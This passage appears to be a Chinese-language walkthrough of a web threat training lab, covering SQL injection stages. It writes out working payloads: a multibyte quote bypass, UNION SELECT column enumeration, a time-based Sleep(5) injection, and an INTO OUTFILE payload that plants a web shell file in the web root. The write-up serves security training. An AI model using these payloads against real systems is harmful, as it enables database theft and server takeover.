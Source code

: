 - payload : ```%83' ORO 1=1/*```  or ```%88%27+OR+1=1/*``` 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_9)
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_10)

- payload 執行後sql 語句會像下圖的反白
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_12)

### Stage 3 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_13)

- 這題是 UNION SELECT，先了解一下這個page 的運作模式
- 選單選了一個值後會在下方用類似table 的方式顯示result 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_14)

- 從URL 可以看到GET parameter 的值就是剛剛選單選的選項
- 這裡應該可以試試看SQL Injection
- Try 一下 UNION SELECT，果然有回應，根據response 應該是UNION SELECT 後的欄位數與實際欄位數量對不上
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_15)
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_16)

- 嘗試兩個欄位 --> Failed 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_17)

- 嘗試三個欄位 --> Failed 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_18)

- 嘗試四個欄位 --> Failed 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_19)


- 一直try 後會發現有6個欄位
- payload : ```' UNION SELECT 1,2,3,4,5,6/*```
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_20)
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_21)

- 題目要讓 page sleep 5 second 
- payload : ```' UNION SELECT 1,2,3,4,5,Sleep(5)/*```
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_22)

### Stage 4 : Upload web shell by INTO OUTFILE
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_23)


- 先看一下題目，跟剛剛第三題很像，但這裡要求要上傳payload 
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_24)

- 是一下UNION SELECT 的欄位數量 (4個)
- payload : ```' UNION SELECT 1,2,3,4 INTO OUTFILE '/var/www/html/eef4a6d53c97b055136de86e412b42ac/shell.php'--%20```
![](/Web_Threat_Training/SQL/Web_Threat_Training_SQL_25)
